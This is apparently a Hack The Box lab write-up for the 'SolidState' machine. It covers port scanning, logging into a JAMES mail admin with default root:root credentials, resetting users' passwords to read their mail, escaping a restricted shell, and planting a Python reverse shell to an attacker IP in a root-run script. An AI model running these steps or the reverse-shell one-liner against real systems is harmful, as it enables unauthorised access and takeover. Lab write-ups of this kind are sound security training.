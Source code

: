 ```yaml
---
description: https://app.hackthebox.com/machines/85
cover: ../../../.gitbook/assets/SolidState.png
coverY: -49.870466321243526
---
```


# SolidState

## Nmap

```
sudo nmap 10.10.10.51 -p- -sS -sV

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp    JAMES smtpd 2.3.2
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### James SMTP Server

Looking at our nmap results we see the target system is running JAMES 2.3.2 is an Apache mail server.&#x20;

Some quick research shows that RCE is possible on version 2.3.2. However, this is not our attack vector.&#x20;

The default login credentials for the admin interface on port 4555 is usually set to `root:root`. Connecting to the admin interface with telnet we are able to authenticate.

![](<../../../.gitbook/assets/image (1) (5).png>)

Running the HELP command we are then able to list known users using the `listusers` command.

![](<../../../.gitbook/assets/image (11) (1) (1).png>)

### Password Resetting

We also see a command for resetting a users password. From here I reset every single users password and then logged into `pop3` using `telnet` in an attempt to discover sensitive information contained within emails.

```
# Reset mindy's password
setpassword mindy password
```

Then login over telnet to pop3.

```
telnet 10.10.10.51 110

USER mindy
PASS password
LIST
```

![](<../../../.gitbook/assets/image (9) (4).png>)

Retrieving email index 2 we discover SSH credentials.

```
retr 2
```

![](<../../../.gitbook/assets/image (3) (5) (1).png>)

### SSH

We are then able to authenticate over SSH as the user Mindy.\


![](<../../../.gitbook/assets/image (2) (1) (1) (2) (1) (1).png>)

### Restricted Shell

After logging in we notice we are in a `rbash` shell which is a restricted shell. I have previously covered `rbash` shell escapes in "Sunset Decoy" where I will be using the same technique  to escape the restricted shell.

{% content-ref url="../../pg-play-or-vulnhub/linux/sunsetdecoy.md" %}
[sunsetdecoy.md](../../pg-play-or-vulnhub/linux/sunsetdecoy.md)
{% endcontent-ref %}

```bash
ssh mindy@10.10.10.51 -t "bash --noprofile"
```

![](<../../../.gitbook/assets/image (8) (4).png>)

### User Flag

We are then able to grab the `user.txt` flag.

![](<../../../.gitbook/assets/image (65).png>)

### Enumeration

After performing some basic enumeration steps I was unable to identify any interesting routes for escalation. I decided to upload a [`pspy`](https://github.com/DominicBreuker/pspy) binary to monitor for scheduled tasks and processes that might be running.

After uploading the binary to the target system I then change the permissions to allow execution.

```
chmod +x ./pspy32
```

Then executed the binary.\


In the output we notice the following python script is being executed on a regular interval.

![](<../../../.gitbook/assets/image (6) (2) (2) (1).png>)

Browsing to the file we notice it is owned by root. However, we have rights to edit the file.

![](<../../../.gitbook/assets/image (4) (1) (3).png>)

### Privilege Escalation

To take advantage of this for privilege escalation we can clear the contents of the file and use `nano` to input a Python reverse shell.

```
# Erase file contents
echo  > tmp.py
```

Then use nano to insert the following reverse shell:

```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.6",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")
```

![](<../../../.gitbook/assets/image (7) (4).png>)

### Root Flag

A few minutes later we will receive a **root** shell. Where we can then grab the `root.txt` flag.\


![](<../../../.gitbook/assets/image (10) (3).png>)
